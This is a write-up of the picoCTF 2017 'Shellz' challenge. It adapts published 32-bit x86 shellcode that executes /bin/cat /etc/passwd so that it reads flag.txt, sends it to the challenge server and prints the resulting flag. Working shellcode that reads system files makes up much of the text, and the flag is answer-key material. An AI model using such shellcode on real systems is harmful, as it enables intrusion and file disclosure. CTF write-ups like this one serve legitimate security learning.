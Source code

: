 **Challenge name:** Shellz  
**Description:** You no longer have an easy thing to call, but you have more space. Program: shellz! Source. Connect on shell2017.picoctf.com:6942.  
**Hint:** There is a bunch of preexisting shellcode already out there!  
**File(s) provided:**  
- shellz (ELF 32-bit binary)
- shellz.c (source code)

---
# Step 0: Recon
They've given us a binary that reads up to 40 bytes and executes it. We can solve the challenge by sending it shellcode to read the flag (assuming we can get it to fit inside 40 bytes).

# Step 1 : Find shellcode to read a file
The following shellcode reads ```/etc/passwd``` and is 43 bytes long. The size is not a problem because we need to read "flag.txt" which is 4 bytes shorter than "/etc/passwd", meaning we'll need 5 bytes less (4 bytes for the text, 1 byte for the push instruction). 
``` python
s = ''
s += "\x31\xc0"			# xorl %eax,%eax
s += "\x99" 			# cdq
s += "\x52" 			# push edx
s += "\x68\x2f\x63\x61\x74" 	# push dword 0x7461632f
s += "\x68\x2f\x62\x69\x6e" 	# push dword 0x6e69622f
s += "\x89\xe3" 		# mov ebx,esp
s += "\x52" 			# push edx
s += "\x68\x73\x73\x77\x64" 	# push dword 0x64777373
s += "\x68\x2f\x2f\x70\x61" 	# push dword 0x61702f2f
s += "\x68\x2f\x65\x74\x63"	# push dword 0x6374652f
s += "\x89\xe1" 		# mov ecx,esp
s += "\xb0\x0b" 		# mov $0xb,%al
s += "\x52" 			# push edx
s += "\x51" 			# push ecx
s += "\x53" 			# push ebx
s += "\x89\xe1" 		# mov ecx,esp
s += "\xcd\x80"  		# int 80h
```
Linux/x86 - bin/cat /etc/passwd - 43 bytes  
Source: http://shell-storm.org/shellcode/files/shellcode-571.php

# Step 2: Inspect the shellcode
First, we need to find where the file is specified. This is the relevant part:
``` python
s += "\x68\x73\x73\x77\x64" 	# push dword 0x64777373
s += "\x68\x2f\x2f\x70\x61" 	# push dword 0x61702f2f
s += "\x68\x2f\x65\x74\x63"	# push dword 0x6374652f
```
The first byte (```\x68```) for each of these lines is for the push instruction; the rest 4 bytes are the data being pushed.

Data:
```
73737764  
2f2f7061  
2f657463  
```
ASCII hex decode:
```
sswd  
//pa  
/etc  
```
I'm not sure why you need 2 slashes, but it won't matter because we don't need slashes anyway.

# Step 3: Edit the shellcode
Based on the example above, we want to encode the following:
```
.txt  
flag  
```
ASCII hex encoded:
```
2E747874  
666C6167  
```
The relevant lines of the shellcode become (don't forget the instruction byte):
``` python
s += "\x68\x2e\x74\x78\x74" 	# push dword ".txt"
s += "\x68\x66\x6c\x61\x67"	# push dword "flag"
```

# Step 4: Test locally
Create a ```flag.txt``` file with some test data inside.
Copy the shellcode into a python file to print it, then pass that output to the binary.

``` bash
# python shellcode.py |./shellz
My mother told me to never accept things from strangers
How bad could running a couple bytes be though?
Give me 40 bytes:
test
```

# Step 5: Execute to get flag
```bash
# python shellcode.py | nc shell2017.picoctf.com 6942
My mother told me to never accept things from strangers
How bad could running a couple bytes be though?
Give me 40 bytes:
4effa67d6909029fd3cc45600f024e3f
```
